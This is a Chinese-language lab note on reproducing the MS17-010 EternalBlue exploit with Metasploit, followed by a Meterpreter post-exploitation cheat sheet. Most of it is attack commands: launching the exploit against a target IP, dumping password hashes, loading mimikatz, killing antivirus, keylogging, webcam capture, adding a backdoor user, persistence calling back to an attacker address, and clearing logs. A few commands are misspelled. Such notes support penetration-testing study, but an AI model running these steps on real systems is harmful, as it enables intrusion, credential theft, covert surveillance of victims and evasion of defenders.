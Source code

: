```yaml
---
title: MS17-010永恒之蓝漏洞复现
---
```



# MS17-010永恒之蓝漏洞复现

- 利用VMware打开kaili虚拟机，并打开命令终端输入，打开工具msf
  
  ```
  msfconsole
```
  
- 搜索ms17-010模块
  ```
  search ms17-010
  ```
  
- 选择需要使用的模块
  ```
  use [模块名] 或者use 0
  ```

- 设置攻击载荷
  ```
  set payload
  #msf6会默认设置好payload
  ```

- 设置靶机ip
  ```
  set RHOST [ip]
  ```

- 执行攻击
  ```
  run
  ```

攻击成功后回显WIN，回弹shell meterpreter进入后渗透测试阶段

- 输入shell即可切换目标的windows shell，要想从目标主机shell退出到exit
- 如果出现乱码输入
  ```
  chcp 65001
  ```

输入： 

```
sessions -l
```

查看我们获得的shell，前面有id

- 输入： sessions -i 1 
  ```
  sessions -i 1
  ```

即可切换到id为1的shell

- 输入
  ```
  shell
  ```

即可进入cmd类型的控制

下面给出一些cmd常见命令：

```
sysinfo      #查看目标主机系统信息
run scraper    #查看目标主机详细信息
run hashdump   #导出密码的哈希
load kiwi     #加载mimikatz
ps       #查看目标主机进程信息
pwd     #查看目标当前目录(windows)
getlwd     #查看目标当前目录(Linux)
search -f *.jsp -d e:\      #搜索E盘中所有以.jsp为后缀的文件
download e:\test.txt /root     #将目标机的e:\test.txt文件下载到/root目录下
upload /root/test.txt d:\test      #将/root/test.txt上传到目标机的 d:\test\ 目录下
getpid          #查看当前Meterpreter Shell的进程PID
migrate 1384        #将当前Meterpreter Shell的进程迁移到PID为1384的进程上
idletime       #查看主机运行时间
getuid        #查看获取的当前权限
getsystem       #提权,获得的当前用户是administrator才能成功
run killav       #关闭杀毒软件
screenshot       #截图
webcam_list      #查看目标主机的摄像头
webcam_snap      #拍照
webcam_stream    #开视频
execute 参数 -f 可执行文件    #执行可执行程序
run getgui -u hack -p 123    #创建hack用户，密码为123
run getgui -e     #开启远程桌面
keyscan_start       #开启键盘记录功能
keyscan_dump    #显示捕捉到的键盘记录信息
keyscan_stop   #停止键盘记录功能
uictl disable keyboard    #禁止目标使用键盘
uictl enable keyboard   #允许目标使用键盘
uictl disable mouse    #禁止目标使用鼠标
uictl enable mouse    #允许目标使用鼠标
load    #使用扩展库
run     #使用扩展库
run persistence -X -i 5 -p 8888 -r 192.168.10.27    #反弹时间间隔是5s 会自动连接
192.168.27的4444端口，缺点是容易被杀毒软件查杀
portfwd add -l 3389 -r 192.168.11.13 -p 3389     #将192.168.11.13的3389端口转发到本
地的3389端口上，这里的192.168.11.13是获取权限的主机的ip地址
clealev      #清除日志
```
